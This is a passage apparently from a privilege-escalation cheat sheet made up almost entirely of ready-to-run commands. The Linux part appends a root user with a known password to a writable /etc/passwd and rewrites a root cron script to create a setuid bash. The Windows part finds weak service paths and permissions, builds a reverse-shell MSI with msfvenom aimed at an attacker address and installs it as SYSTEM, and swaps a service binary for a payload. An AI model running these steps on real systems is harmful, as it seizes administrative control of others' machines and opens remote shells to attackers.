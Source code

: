 **Writable /etc/passwd:**

```bash
# Check if /etc/passwd is writable
ls -la /etc/passwd

# If writable, add root user
openssl passwd -1 -salt salt password123
echo 'hacker:$1$salt$qMKkPP7L3pKrLwBJgmGVH.:0:0::/root:/bin/bash' >> /etc/passwd

# Login as root
su hacker
# Password: password123
```

**Cron job abuse:**

```bash
# Check for writable cron jobs
ls -la /etc/cron.d/
ls -la /etc/cron.daily/
cat /etc/crontab

# If script run by root is writable
echo '#!/bin/bash' > /usr/local/bin/backup.sh
echo 'cp /bin/bash /tmp/rootbash' >> /usr/local/bin/backup.sh
echo 'chmod +s /tmp/rootbash' >> /usr/local/bin/backup.sh
chmod +x /usr/local/bin/backup.sh

# Wait for cron to execute
# Then:
/tmp/rootbash -p
```

### Windows Privilege Escalation

**Common vectors:**

```powershell
# Unquoted service paths
wmic service get name,displayname,pathname,startmode | findstr /i "auto" | findstr /i /v "c:\windows\\" | findstr /i /v """

# Exploitable if path contains spaces:
# C:\Program Files\My Service\service.exe
# Windows tries: C:\Program.exe, C:\Program Files\My.exe

# AlwaysInstallElevated
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated

# If both are 1, can install MSI as SYSTEM
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.1.100 LPORT=4444 -f msi -o shell.msi
msiexec /quiet /qn /i shell.msi

# Weak service permissions
accesschk.exe /accepteula -uwcqv "Authenticated Users" *

# If service binary is writable, replace with malicious binary
sc stop vulnerable_service
move C:\Path\To\service.exe C:\Path\To\service.exe.bak
copy payload.exe C:\Path\To\service.exe
sc start vulnerable_service
```
